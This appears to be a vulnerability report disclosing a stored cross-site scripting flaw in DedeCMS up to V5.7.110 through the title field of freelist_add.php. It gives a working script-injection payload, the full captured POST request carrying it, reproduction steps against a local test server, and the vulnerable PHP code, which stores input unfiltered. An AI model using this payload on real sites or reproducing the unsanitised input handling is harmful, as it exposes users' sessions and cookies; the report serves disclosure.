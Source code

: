 # [DedeCMS<=V5.7.110-Stored XSS-freelist_add.php]

## Basic Information

**[Bug Reporter]:** DililLearngent

**[Application Vendors]:** https://www.dedecms.com/

**[Affected Version]:** DedeCMS<=V5.7.110

**[Test Environment]:** windows10+apache+php7.0

**[Description]:** DedeCMS up to V5.7.110 was discovered to contain a cross-site scripting (XSS) vulnerabilitiy at /dede/freelist_add.php via the `title` parameter.

## Bug Information

**[Vulnerability type]:** Stored XSS

**[Vulnerability Url]:** http://192.168.0.102/dedecms/dede/freelist_add.php

**[Vulnerability Location]:** /dede/freelist_add.php

**[Vulnerability Test]:**

1. First visit http://192.168.0.102/dedecms/dede/freelist_add.php

   payload：`<img src=1 onerror=alert(document.cookie)>`

   ![](../../img/20230815120459.png)

2. After clicking SUBMIT, get the packet as follows

   ```bash
   POST /dedecms/dede/freelist_add.php HTTP/1.1
   Host: 192.168.0.102
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
   Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
   Accept-Encoding: gzip, deflate
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 1015
   Origin: http://192.168.0.102
   Connection: close
   Referer: http://192.168.0.102/dedecms/dede/freelist_add.php
   Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=k80ie8nj6f5b2vu6g6ao7s88t4; _csrf_name_9ede20a6=59cf8672331723d4681756d382aac803; _csrf_name_9ede20a61BH21ANI1AGD297L1FF21LN02BGE1DNG=6d9ce6ae64572654; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=fb049b7933f5a742; DedeLoginTime=1692068097; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=6342e62784a9d5e8; ENV_GOBACK_URL=%2Fdedecms%2Fdede%2Ffreelist_main.php
   Upgrade-Insecure-Requests: 1
   
   dopost=save&title=%3Cimg+src%3D1+onerror%3Dalert%28document.cookie%29%3E&listdir=%7Bcmspath%7D%2Ffreelist%2F&defaultpage=index.html&namerule=%7Blistdir%7D%2Findex_%7Blistid%7D_%7Bpage%7D.html&templet=%7Bstyle%7D%2Flist_free.htm&maxpage=100&keywords=aaaa&description=aaaaa&liststyle=4&typeid=0&channel=1&att=s&subday=0&pagesize=30&col=1&titlelen=60&keywordarc=&orderby=pubdate&order=desc&innertext=%0D%0A%3Cli%3E%0D%0A+++%5Bfield%3Aimglink%2F%5D%0D%0A++++%5Bfield%3Atextlink%2F%5D%0D%0A++++%3Cspan+class%3D%22info%22%3E%0D%0A++++++++%3Csmall%3E%E6%97%A5%E6%9C%9F%EF%BC%9A%3C%2Fsmall%3E%5Bfield%3Apubdate+function%3D%22getdatemk%28%40me%29%22%2F%5D%0D%0A++++++++%3Csmall%3E%E7%82%B9%E5%87%BB%EF%BC%9A%3C%2Fsmall%3E%5Bfield%3Aclick%2F%5D%0D%0A++++++++%3Csmall%3E%E5%A5%BD%E8%AF%84%EF%BC%9A%3C%2Fsmall%3E%5Bfield%3Ascores%2F%5D%0D%0A++++%3C%2Fspan%3E%0D%0A++++%3Cp+class%3D%22intro%22%3E+%5Bfield%3Adescription%2F%5D...%3C%2Fp%3E%0D%0A++++%3C%2Fli%3E%0D%0A&Submit2=%E4%BF%9D%E5%AD%98%E4%B8%80%E4%B8%AA%E5%88%97%E8%A1%A8
   ```

   

3. Visit http://192.168.0.102/dedecms/dede/freelist_main.php

   ![](../../img/20230815120824.png)

   ![](../../img/20230815120910.png)

   You also can visit http://192.168.0.102/dedecms/plus/freelist.php?lid=12

   ![](../../img/20230815121026.png)

**[code analysis]:**

In /dede/freelist_add.php:

```php
<?php 
//...
else if($dopost=='save')
{
    if(!isset($types)) $types = '';
    if(!isset($nodefault)) $nodefault = '0';
    $atts = " pagesize='$pagesize' col='$col' titlelen='$titlelen' orderby='$orderby' orderway='$order' ";
    $ntype = '';
    $edtime = time();
    if(empty($channel))
    {
        showmsg('频道类型不能为空','-1');
        exit();
    }
    if(is_array($types))
    {
        foreach($types as $v) $ntype .= $v.' ';
    }
    
    if($ntype!='') $atts .= " type='".trim($ntype)."' ";
    if(!empty($typeid)) $atts .= " typeid='$typeid' ";
    if(!empty($channel)) $atts .= " channel='$channel' ";
    if(!empty($subday)) $atts .= " subday='$subday' ";
    if(!empty($keywordarc)) $atts .= " keyword='$keywordarc' ";
    if(!empty($att)) $atts .= " att='$att' ";
    
    $innertext = trim($innertext);
    if(!empty($innertext)) $innertext = stripslashes($innertext);
    
    $listTag = "{dede:list $atts}$innertext{/dede:list}";
    $listTag = addslashes($listTag);
    $inquery = "
     INSERT INTO `#@__freelist`(`title` , `namerule`  , `listdir` , `defaultpage` , `nodefault` , `templet` , `edtime`, `maxpage` , `click` , `listtag` , `keywords` , `description`)
     VALUES ('$title','$namerule','$listdir','$defaultpage','$nodefault','$templet','$edtime', '$maxpage','0','$listTag','$keywords','$description');
   ";
    $dsql->ExecuteNoneQuery($inquery);
    ShowMsg("成功增加一个自由列表!", "freelist_main.php");
    exit();
}
//....
```

No filtering is done on title.

In /dede/freelist_main.php and /plus/freelist.php?lid=12, `title` is echoed on the page.



